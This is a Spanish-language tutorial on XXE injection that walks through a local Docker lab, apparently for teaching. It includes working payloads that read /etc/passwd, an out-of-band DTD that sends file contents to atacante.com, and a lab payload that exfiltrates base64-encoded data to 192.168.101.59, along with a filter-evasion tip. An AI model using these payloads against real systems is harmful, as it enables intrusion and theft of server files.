

# Qué es XML External Entity Injection?

XXE (XML External Entity) es una vulnerabilidad que permite a un atacante interferir con el procesamiento de archivos XML. Ocurre cuando una aplicación XML permite la definición y resolución de entidades externas. Esto puede ser explotado para acceder a archivos internos, realizar escaneos de red, denegación de servicio o exfiltración de datos. Se mitiga deshabilitando la resolución de entidades externas y validando la entrada XML.

Las aplicaciones que procesan datos XML pueden volverse un blanco crítico si no manejan correctamente las entidades externas. En esta entrada exploraremos la vulnerabilidad XXE, su impacto, y cómo puede ser explotada en un entorno controlado.

## Que es XML?
***XML (eXtensible Markup Language)*** es un lenguaje de marcado usado para almacenar y transportar datos. Su estructura basada en etiquetas permite representar datos jerárquicos de forma legible tanto por humanos como por máquinas.

```xml
<usuario>
  <nombre>Diego</nombre>
  <email>Diego@maradona.com</email>
</usuario>
```
## Entidades en XML
Las entidades son mecanismos para definir valores reutilizables o dinámicos dentro del documento XML. El parser las reemplaza automáticamente al procesar el XML.

### Entidades predefinidas
Son entidades estándar para caracteres especiales

```xml

&lt; → < 

&gt; → > 

&amp; → & 

&apos; → ' 

&quot; → " 
```
Ejemplo:

```xml 
<mensaje>5 &lt; 10</mensaje>
```
### Entidades personalizadas (custom/generales internas)
Definidas por el usuario dentro del DTD. Se reemplazan por el valor asignado.

```xml 
<!DOCTYPE data [
  <!ENTITY saludo "Hola Mundo">
]>
<mensaje>&saludo;</mensaje>

```

### Entidades externas
```xml 

<!DOCTYPE data [
  <!ENTITY archivo SYSTEM "file:///etc/passwd">
]>
<contenido>&archivo;</contenido>

```
Sabiendo esto vamos a levantar el laboratorio.

## Levantando el laboratorio.

El laboratorio que vamos a estar utilizando es [Este](https://github.com/jbarone/xxelab)

```bash
$ git clone https://github.com/jbarone/xxelab.git
$ cd xxelab
$ docker build -t xxelab .
```
Una vez buildeada la imagen la ejecutamos con:

```sh
$ docker run -it --rm -p 127.0.0.1:5000:80 xxelab
```

Una vez levantado el contenedor de docker deberiamos ver como esto


## Interceptando peticion Web con Burpsuite

Vamos a enviar datos de ejemplos para ver como el servidor esta manejando las peticiones desde su lado con Burpsuite.


## XXE Reflected
Una de las formas más claras de explotar una vulnerabilidad XXE es a través de la lectura directa de archivos del sistema de la víctima, aprovechando la respuesta HTTP de la aplicación. Esta técnica se conoce como XXE Reflected.

El atacante modifica una carga XML válida para incluir una entidad externa que hace referencia a un archivo local en el sistema de la víctima. Al procesar el XML, el parser reemplaza la entidad por el contenido del archivo. Si ese contenido se refleja en la respuesta de la aplicación, el atacante puede verlo directamente en su navegador o en una herramienta como Burp Suite.


Se forzó al parser XML a leer el archivo ***/etc/passwd*** en la máquina donde corre la aplicación y a insertar su contenido en el XML de respuesta. Esto demuestra una lectura remota de archivos, sin necesidad de acceso directo al sistema de archivos ni ejecución de comandos.

No siempre es posible inyectar entidades, pero podemos encarar el problema de otra forma.

## External DTD (XXE OOB)

Cuando una aplicación no refleja directamente el contenido de una entidad externa en la respuesta, aún puede ser vulnerable a XXE. En estos casos, se utiliza un ataque Out-of-Band (OOB), en el que los datos extraídos se envían a un servidor externo controlado por el atacante. Este vector se apoya en una DTD externa para definir la lógica de extracción y exfiltración.

### Estructura del ataque

Carga XML inicial enviada al servidor vulnerable:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE datos SYSTEM "http://atacante.com/payload.dtd">
<datos></datos>
``` 

Contenido de payload.dtd (en el servidor del atacante):

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://atacante.com/?data=%file;'>">
%eval;
```

Carga XML reinterpretada por el parser:

```xml
<datos>&exfil;</datos>
```

Este vector es común en aplicaciones que no reflejan directamente la respuesta pero usan parsers XML inseguros. También es útil en entornos donde el canal de respuesta está controlado o filtrado (firewalls, WAFs, APIs silenciosas).


## Ejemplo practico con el laboratorio

En este ejemplo vamos a ver como podriamos enviar la informacíon del archivo ***/etc/passwd*** cifrado en base64 por una peticíon por GET a un servidor Web.

payload:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.101.59/?file=%file;'>">
%eval;
%exfil;
```

> El uso de %25 es una técnica de evasión, no una necesidad del estándar XML. Se aplica para superar validaciones, evitar bloqueos y asegurar que la estructura del payload llegue intacta al parser. Es parte del arsenal del atacante para aumentar la fiabilidad del ataque en entornos filtrados o intermediados.
{: .prompt-info }


Una vez que se consuma el recurso de nuestro servidor local podemos ver el contenido del archivo en base64 en el cuerpo de la peticíon


ahora podemos decrifrar el contenido usando:

```sh
echo -n "contenido en base 64" | base64 -d; echo 
```




